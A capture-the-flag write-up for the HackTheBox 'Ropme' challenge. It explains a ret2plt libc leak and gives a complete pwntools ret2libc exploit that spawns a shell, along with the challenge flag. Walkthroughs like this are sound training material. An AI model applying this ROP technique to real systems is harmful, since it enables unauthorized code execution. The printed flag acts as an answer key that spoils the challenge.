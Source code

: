 # Ropme

## Overview

[Ropme ](https://app.hackthebox.eu/challenges/8)was an 80pts challenge rated as `Hard` on HackTheBox. Personally, I don't believe it should have been a hard; the technique used is fairly common and straightforward, and the high points and difficulty is probably due to it being one of the first challenge on the platform.

Exploiting the binary involved executing a [ret2plt ](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got#ret-2-plt)attack in order to leak the libc version before gaining RCE using a [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc).

## Analysis

```text
$ ./ropme 
ROP me outside, how 'about dah?
test
```

One output, one input, then the program breaks.

```text
$ rabin2 -I ropme
bits     64
canary   false
nx       true
pic      false
relro    partial
```

No PIE, meaning we can pull off the [ret2plt](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got#ret-2-plt). Let's leak the libc version.

```python
from pwn import *

elf = context.binary = ELF('./ropme')
libc = elf.libc
p = elf.process()

# ret2plt
rop = ROP(elf)

rop.raw('A' * 72)
rop.puts(elf.got['puts'])
rop.raw(elf.symbols['main'])

p.sendline(rop.chain())

# read the leaked puts address
p.recvline()
puts = u64(p.recv(6) + b'\x00\x00')
log.success(f'Leaked puts: {hex(puts)}')

# Get base
libc.address = puts - libc.symbols['puts']
log.success(f'Libc base: {hex(libc.address)}')
```

We can now leak other symbols in order to pinpoint the libc version, for which you can use something like [here](https://libc.blukat.me/). Once you've done that, it's a simple [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc).

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./ropme')

if args.REMOTE:
    libc = ELF('./libc-remote.so', checksec=False)
    p = remote('docker.hackthebox.eu', 31919)
else:
    libc = elf.libc
    p = elf.process()

# ret2plt
rop = ROP(elf)

rop.raw('A' * 72)
rop.puts(elf.got['puts'])
rop.raw(elf.symbols['main'])

p.sendline(rop.chain())

### Pad with \x00 to get to correct length of 8 bytes
p.recvline()
puts = u64(p.recv(6) + b'\x00\x00')
log.success(f'Leaked puts: {hex(puts)}')

# Get base
libc.address = puts - libc.symbols['puts']
log.success(f'Libc base: {hex(libc.address)}')


# ret2libc
binsh = next(libc.search(b'/bin/sh\x00'))

rop = ROP(libc)
rop.raw('A' * 72)
rop.system(binsh)

p.sendline(rop.chain())

p.interactive()

# HTB{r0p_m3_if_y0u_c4n!}
```

